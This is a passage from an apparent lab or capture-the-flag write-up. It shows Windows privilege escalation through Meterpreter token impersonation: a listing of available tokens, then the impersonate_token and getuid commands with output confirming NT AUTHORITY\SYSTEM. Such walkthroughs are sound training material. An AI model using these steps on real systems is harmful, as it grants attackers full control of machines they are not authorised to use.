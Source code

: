 ```
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\ShellHWDetection
NT SERVICE\Spooler
NT SERVICE\sppsvc
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\WdiSystemHost
NT SERVICE\WinDefend
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\CryptSvc
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\LanmanWorkstation
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\wscsvc
```

We note that the **BUILTIN\Administrators** token is available. Since we want to elevate our privilege we can use this token by using the command ```impersonate_token```:
```
meterpreter > impersonate_token "BUILTIN\Administrators"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
```

The impersonate command has finished with success, so we check our ID:
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

We are SYSTEM, so the answer is **NT AUTHORITY\SYSTEM**.
